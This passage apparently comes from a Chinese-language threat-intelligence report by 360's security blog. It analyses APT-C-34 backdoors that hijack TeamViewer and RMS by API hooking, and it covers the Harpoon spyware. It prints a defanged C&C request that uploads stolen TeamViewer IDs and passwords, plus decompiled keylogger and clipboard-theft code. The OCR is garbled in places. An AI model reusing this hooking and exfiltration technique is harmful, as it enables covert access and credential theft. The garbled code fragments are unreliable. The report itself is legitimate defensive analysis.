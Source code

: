 正常的TeamViewer QuickSupport由主程序、Teamviewer_Resource_fr.dll和tv.dll三个文件构成，该组织加入了一个后门dl程序将该软件改造成后门。后门替换了原有的tv.d文件，将原有的功能库tv.dll重信命名为userinit.dll，同时伪造的tv.dll与原模块具有相同的导出表结构，再通过加载userinit.dll来支持原有逻辑。  

伪造的tv.dll通过InlineHookAPIShowWindow使正常TeamViewer窗口隐藏，并HookSetWindowTextW获取ID和Password。  

![](https://cdn-mineru.openxlab.org.cn/extract/a986eb2c-7d58-4433-8b17-03b40d7c8f01/e531c19ea1dec04a8c659997c078388e2889ee79ae320948db6aaa820c6c665f.jpg)  

上图为正常的TeamViewer QuickSuppor程序窗口，伪装DLL通过Hook 系统APIShowWindow，并修改显示参数为SW_HIDE进而实现主程序窗口隐藏。  

![](https://cdn-mineru.openxlab.org.cn/extract/a986eb2c-7d58-4433-8b17-03b40d7c8f01/2e2102173696edf945661bd598a1bdf063e087a4bfc43185559b5d9735d2b5b9.jpg)  

通过HookAPISetWindowsTextW来获取TeamViewer的ID和Password随后构造Get请求，将ld和Password上传到C&C:  

![](https://cdn-mineru.openxlab.org.cn/extract/a986eb2c-7d58-4433-8b17-03b40d7c8f01/c53b144c66be4b764b0eea2cdff2ad866a800efa2453d4600d8e56a15e705b81.jpg)  

hxxp://.ru//get.php? $\uplus$ 1&n $|=$ 31337&u=7&id $=$ xx&pwd $=$ xx&m $|=$ d4628443另一方面，恶意程序会在目录下寻找名为msmm.exe和msmn.exe的文件，如果存在则通过WinExec执行，其主要功能为键盘记录和剪切板内容窃取。  

# 旋在中亚上空的阴影-黄金雕（APT-C-34）组织攻击活动揭露-360核心安全技术博客  

![](https://cdn-mineru.openxlab.org.cn/extract/a986eb2c-7d58-4433-8b17-03b40d7c8f01/7c58194983c5343f3ac292f271241d57fb9d72d1807919ce704da4e9b63a1cad.jpg)  

# 360核心安全技术博客  

if（（unsigned int8)q_GetclipboardInfo((int)&dword_47D08c)) System::_linkproc_LStrCmp(dword_47D08c, dword_47D090); if（u3） { System::_linkproc_ LStrAsg(&dword_47D090, dword_47D08c); System::linkproc LStrCatN(& $017$ ，3, $v5$ , dword_47D08c, &str__div_[1]); sub_4714F 0(v17); sub_471250(&str_0[1], &u15); sub_471428((int)&u14); System::_linkproc_ LStrCatN(&u16, 7, $_{06}$ ， $\downarrow\uparrow4$ ,&str__diu_[1]); v7 = sub_4714F 0(v16); sub_47143C(07); unknown_1ibname_79(&dword_47D994, byte_47D098, 260, $_{0\cdot12}$ ， $v11$ ， $0.16$ ， $\downarrow9$ ， $_{08}$ if（GetAsyncKeyState((unsigned int8ja1) == 0x8001u ) sub_471850(a1, &u13); sub_4713DC(v13); ++a1;  

主页 Home归档 Archive分类 Category关于Aboutα  

查找名为 MSM?.DLL的DLL文件，如果存在则会加载该DLL，执行Init导出函数，该DLL的功能也为键盘和剪切板记录。  

值得注意的是，在伪装的DLL中，后部分代码使用了虚拟机进行保护,解析执行Bytecode。  

#### RMS Hijacker'  

另一款改造后门通过劫持俄罗斯常用的远程控制软件RMS，实现对目标机器的控制。其功能与TeamViewerHijacker相似。  

![](https://cdn-mineru.openxlab.org.cn/extract/a986eb2c-7d58-4433-8b17-03b40d7c8f01/b1c698b7bf1eebfca7c888c081243a9f4716074d24d4d5d366c6bee5ab31928b.jpg)  

### 自主研发Harpoon(FapnyH)后门  

Haroon是黄金雕（APT-C-34）组织自主研发的一款针对特定用户的后门程序，使用Delphi实现。我们获取了该后门的说明手册（如下图），该后门具备强大的信息收集功能，包括屏幕定时截图、录音、剪切板记录、键盘记录、特定后缀名文件偷取等功能。  

旋在中亚上空的阴影-黄金雕（APT-C-34）组织攻击活动揭露-360核心安全技术博客  

# OCHOBHbIE OYHKUNN  
